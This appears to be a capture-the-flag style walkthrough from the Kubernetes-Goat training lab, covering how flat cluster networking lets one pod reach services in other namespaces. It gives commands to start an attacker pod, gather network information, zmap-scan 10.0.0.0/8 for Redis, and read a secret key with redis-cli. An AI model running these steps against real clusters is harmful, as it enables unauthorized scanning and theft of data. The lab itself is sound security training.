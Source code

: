 # Kubernetes Namespaces bypass

## Scenario Information

By default, Kubernetes uses a flat networking schema, which means any pod/service within the cluster can talk to other. The namespaces within the cluster don't have any network security restrictions by default. Anyone in the namespace can talk to other namespaces. We heard that Kubernetes-Goat loves cache. Let's see if we gain access to other namespaces

* To get started with the scenario, let's run our awesome `hacker-container` in the default namespace

```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

![Scenario 11 Welcome](images/sc-11-1.png)

## Scenario Solution

* Get the cluster IP range information

```bash
ip route
ifconfig
printenv
```

![Scenario 11 recon](images/sc-11-2.png)

* Based on the analysis/understanding about the system. We can run the internal scan for the entire cluster range using `zamp`

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

![Scenario 11 zmap](images/sc-11-3.png)
![Scenario 11 output ips](images/sc-11-4.png)

> There is also another way to access the services/pods in the Kubernetes. For example `servicename.namespace`

* Let's access the `redis` using the `reds-cli` client

```bash
redis-cli -h 10.12.0.2
KEYS *
GET SECRETSTUFF
```

![Scenario 11 redis access](images/sc-11-5.png)

> There are many other services and resources exposed within the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got a gold mine here.

## Miscellaneous

TBD
